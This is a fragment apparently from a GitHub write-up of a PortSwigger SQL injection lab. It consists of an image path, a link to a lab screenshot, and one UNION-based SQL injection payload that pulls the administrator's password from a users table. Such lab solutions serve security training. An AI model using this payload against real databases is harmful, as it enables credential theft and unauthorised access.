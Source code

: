 1 UNION SELECT password from users where username ='administrator'--
https://github.com/Harbeer-Singh/Portswigger-Labs/blob/main/SQL%20INJECTION/LAB-19/image/1.png

